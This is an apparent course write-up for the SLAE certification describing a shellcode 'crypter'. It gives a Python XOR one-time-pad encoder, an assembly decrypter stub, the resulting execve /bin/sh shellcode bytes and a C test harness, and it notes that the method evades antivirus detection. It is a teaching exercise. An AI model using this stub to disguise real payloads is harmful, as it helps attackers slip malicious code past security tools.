

Background
The final assignment of the SLAE was to write a shellcode "crypter." A crypter is a program that takes as input another program, then encrypts that program and wraps it in self-decrypting code (this code often called a
stub or
wrapper) so that at runtime the program performs the same functions while having an on-disk and in-memory footprint different from the original code.
If "crypter" sounds like an absurd word to you that's because it is. In common vogue it's little more than a blackhat colloquialism loosely meaning "program that wraps my easily detected malcode in a blob of self-modifying garbage to make it less detected so that I don't have to write new malcode." The goal isn't so much cryptographic security as nontrivial obfuscation of the malicious code against automated defenses. This obfuscation helps evade signature-based antivirus/IPS detection and slow static analysis of the malcode. Cryptographic algorithms just happen to be a good means to this end. Therefore even broken or poor crypto could fulfill the requirements of a "crypter."
Crypting is a more common activity than most people realize--I used to analyze malware casually and almost every malware sample I ever found was encrypted with TEA, RC4, AES, or a simple XOR cipher and wrapped in a decrypter module in addition to being obfuscated in dozens of other ways. In cases where malware was "naked" it was usually coupled with indications that the operator was testing their malware or had released it in error. Crypting is the last thing done to malware before it is spread to the world, and crypting is an integral part of the commodity malware and malware-as-a-service ecoverse.
This is because these businesses by their very nature create an obfuscation arms race. Dozens of operators spreading the same open-source or commoditized malware around the world means it will be flagged by antivirus solutions within hours, so operators "crypt" their malware regularly to stay ahead of detection rates. The same problem is faced by legitimate penetration test or red team operators as their blackhat counterparts: they use common free or commercial software such as Meterpreter or CobaltStrike which are detected by antivirus. Crypting can be part of the solution to these problems.
Anyway, all of that has little to do with this assignment other than to point out that the ideas taught in this section of the course can be used to bypass real-world security controls and are not just theory. They see widespread use every day. The assignment is to use the same concept, just for shellcode instead of an entire program.
Code
The example crypter provided in the course used RC4 as the encryption algorithm, a C program for the encryption process and a C stub for decrypting the shellcode at runtime. This may have been because RC4, while a compact cipher when implemented in a high-level language, would be a little tedious to author in i86 assembly. I didn't like the idea of having to wrap my shellcode in an entire C program to run it (although I use the course's C testing harness anyway to dodge memory protections while testing) so I wanted to code the decrypter stub in assembly. Yet I also didn't want to roll an implementation of AES or some such algorithm in assembly. Therefore I used a decrypter stub written in assembly and a relatively simple encryption process performed in Python.
The encryption I used is just a XOR one-time pad. For every byte of shellcode, the crypter script generates one random byte of key, then XORs the two to produce an encrypted byte of shellcode. The encrypted shellcode and the generated key are then provided to the user and placed inside the decrypter stub, written in assembly. Although manual analysis of the decrypter program could reveal the algorithm and key easily--a flaw all crypters have--the encrypted shellcode should be resilient to automated analysis. The algorithm is also a breeze to code, even in assembly. One downside is that storing a key that's the same length as the shellcode doubles the length of that shellcode.
I tested the crypter using
execve shellcode that spawns a shell. The screenshot below shows several of the steps in the process:
1) Generate the encrypted shellcode and key
2) Place the encrypted shellcode and key into the xor-otp.nasm decrypter stub (not shown)
3) Assemble and link the xor-otp.nasm decrypter stub
4) Dump the shellcode of the decrypter stub
5) Place the decrypter stub shellcode in the testing harness source code (not shown)
6) Execute the test harness to receive a shell
The crypter.py encryption program:
#!/usr/bin/python
import random
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
crypted = ""
crypted2 = ""
key = ""
print 'crypted shellcode ...'
for shellcodebyte in bytearray(shellcode):
keybyte = random.randint(1, 256)
key += '0x'
key += ('%02x,' % keybyte)
cryptedbyte = shellcodebyte ^ keybyte
crypted += '\\x'
crypted += '%02x' % cryptedbyte
crypted2 += '0x'
crypted2 += '%02x,' % cryptedbyte
print crypted
print crypted2
print 'Len: %d' % len(bytearray(shellcode))
print 'Key: ' + keyThe decryption program, which uses a JMP-CALL-POP pattern to get the address of the encrypted shellcode, then decrypts it one byte at a time before jumping to it. To use it with different shellcode, you would need to change all of the bolded parts. These are the length of the shellcode in bytes, the encrypted shellcode itself, and the generated key:
; Filename: xor-otp.nasm
; Author: lastlistener
; Purpose: Demonstrate the use of a XOR one-time pad for encrypting and decrypting shellcode.
global _start
section .text
_start:
jmp short call_decrypter
decrypter:
pop esi
xor ecx, ecx
mov cl, 25
decrypt:
mov al,byte [esi + 25] ; grab the byte of key associated with this byte of shellcode
xor byte [esi], al
inc esi
loop decrypt
jmp short Shellcode
call_decrypter:
call decrypter
Shellcode: db 0x95,0x41,0x13,0x56,0xca,0xba,0x28,0x01,0x2b,0x84,0x34,0x6a,0x82,0xd5,0x35,0x70,0x2c,0x65,0xd6,0xca,0x59,0xd0,0x60,0x89,0xb1
Key: db 0xa4,0x81,0x43,0x3e,0xe5,0x95,0x5b,0x69,0x43,0xab,0x56,0x03,0xec,0x5c,0xd6,0x20,0xa5,0x87,0x85,0x43,0xb8,0x60,0x6b,0x44,0x31
The shellcode generated from the decrypter program:
"\xeb\x0f\x5e\x31\xc9\xb1\x19\x8a\x46\x19\x30\x06\x46\xe2\xf8\xeb\x05\xe8\xec\xff\xff\xff\x95\x41\x13\x56\xca\xba\x28\x01\x2b\x84\x34\x6a\x82\xd5\x35\x70\x2c\x65\xd6\xca\x59\xd0\x60\x89\xb1\xa4\x81\x43\x3e\xe5\x95\x5b\x69\x43\xab\x56\x03\xec\x5c\xd6\x20\xa5\x87\x85\x43\xb8\x60\x6b\x44\x31"The test harness:
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\xeb\x0f\x5e\x31\xc9\xb1\x19\x8a\x46\x19\x30\x06\x46\xe2\xf8\xeb\x05\xe8\xec\xff\xff\xff\x95\x41\x13\x56\xca\xba\x28\x01\x2b\x84\x34\x6a\x82\xd5\x35\x70\x2c\x65\xd6\xca\x59\xd0\x60\x89\xb1\xa4\x81\x43\x3e\xe5\x95\x5b\x69\x43\xab\x56\x03\xec\x5c\xd6\x20\xa5\x87\x85\x43\xb8\x60\x6b\x44\x31";
main()
{
printf("Shellcode Length: %d\n", strlen(code));
int (*ret)() = (int(*)())code;
ret();
}---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
Student ID: SLAE - 1353